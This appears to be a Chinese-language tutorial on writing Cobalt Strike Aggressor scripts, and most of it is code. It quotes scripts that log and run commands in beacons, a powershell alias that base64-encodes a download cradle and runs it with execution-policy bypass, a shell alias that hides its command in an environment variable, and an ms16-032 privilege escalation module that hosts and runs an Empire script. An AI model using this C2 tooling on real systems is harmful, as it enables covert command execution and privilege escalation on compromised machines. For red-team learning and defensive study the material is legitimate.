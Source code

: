 ![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OwJwyQdeibHhQgjqXHTDSTib1bu1Z2vMVrRJEyrqbmdUibW2sCbEHVun7w/640?wx_fmt=png)

The Logging Contract 
---------------------

在 C2 3.0 以上的版本对用户的输入记录有非常详细的记录，对每个信标执行的命令都会以记录对应得时间戳和用户名，Cobalt Strike 客户端中的 Beacon 控制台处理这些日志记录，这些记录都是使用 binput 数据模型进行操作，他需要接收两个参数：

`$1` 信标的会话 ID

`$2` 在 beacon 中显示的信息

```
binput(beacon_ids()[0],"在beacon中显示的信息");
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OCRMlIfc8GibnWr83TBEQ7fkZuU4qveHhUu75cxljq2RxKKAcKQSw50g/640?wx_fmt=png)

我们这里是直接输出的东西，我们也可以将这个东西改为命令：

```
binput(beacon_ids()[0],bshell(beacon_ids()[0],"whoami"));
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OgOhagibQywqLvErowicGTryAyFplTe9X8ibX0dVjVAhWV5HzQKNV5wX0g/640?wx_fmt=png)

Conquering the Shell 
---------------------

> 官方文档这里是在讲解 beacon 中的 powershell 命令是怎么来的，我不做翻译，但是吧官方为文档贴出来

```
# powershell 的编写源码alias powershell {	local('$args $cradle $runme $cmd');		# $0 is the entire command with no parsing.	$args   = substr($0, 11);		# generate the download cradle (if one exists) for an imported PowerShell script	$cradle = beacon_host_imported_script($1);		# encode our download cradle AND cmdlet+args we want to run	$runme  = base64_encode( str_encode($cradle . $args, "UTF-16LE") );		# Build up our entire command line.	$cmd    = " -nop -exec bypass -EncodedCommand \" $+ $runme $+ \"";		# task Beacon to run all of this.	btask($1, "Tasked beacon to run: $args", "T1086");	beacon_execute_job($1, "powershell", $cmd, 1);}
```

下面是 shell 的源码：

```
alias shell {	local('$args');	$args = substr($0, 6);	btask($1, "Tasked beacon to run: $args (OPSEC)", "T1059");	bsetenv!($1, "_", $args);	beacon_execute_job($1, "%COMSPEC%", " /C %_%", 0);}
```

Privilege Escalation (Run a Command) 
-------------------------------------

> 权限提升的脚本源码

官方的 ms16-032 权限提升写法

```
# Integrate ms16-032# Sourced from Empire: https://github.com/EmpireProject/Empire/tree/master/data/module_source/privescsub ms16_032_elevator {	local('$handle $script $oneliner');		# acknowledge this command	btask($1, "Tasked Beacon to execute $2 via ms16-032", "T1068");		# read in the script	$handle = openf(getFileProper(script_resource("modules"), "Invoke-MS16032.ps1"));	$script = readb($handle, -1);	closef($handle);		# host the script in Beacon	$oneliner = beacon_host_script($1, $script);		# run the specified command via this exploit.	bpowerpick!($1, "Invoke-MS16032 -Command \" $+ $2 $+ \"", $oneliner);}
```
